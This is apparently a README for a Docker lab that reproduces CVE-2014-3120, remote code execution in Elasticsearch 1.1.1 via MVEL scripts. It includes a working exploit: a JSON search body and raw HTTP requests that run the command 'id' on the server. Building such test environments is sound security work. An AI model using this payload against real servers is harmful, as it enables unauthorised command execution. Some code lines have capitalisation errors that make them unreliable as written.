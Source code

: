 # ElasticSearch Command Execution Vulnerability (CVE-2014-3120) Test Environment

Jre version: openjdk: 8-jre

Elasticsearch version: v1.1.1

## Principle

Related documents: http://bouk.co/blog/elasticsearch-rce/ , https://www.t00ls.net/viewthread.php?tid=29408

The old version of ElasticSearch supports incoming dynamic scripts (MVEL) to perform some complex operations, while MVEL can execute Java code without sandboxing, so we can execute arbitrary code directly.

The code for the MVEL execution command is as follows:

```java
Import java.io.*;
New java.util.Scanner(Runtime.getRuntime().exec("id").getInputStream()).useDelimiter("\\A").next();
```

## Vulnerability Testing

Compile and run the environment:

```
Docker-compose build
Docker-compose up -d
```

Put the Java code into json:

```json
{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\" ).next();"
        }
    }
  }
```

First, the vulnerability requires at least one piece of data in es, so we need to create one piece of data first:

```
POST /website/blog/ HTTP/1.1
Host: your-ip: 9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```

Then, execute arbitrary code:

```
POST /_search?pretty HTTP/1.1
Host: your-ip: 9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\" ).next();"
        }
    }
}
```

The results are as follows:

![](1.png)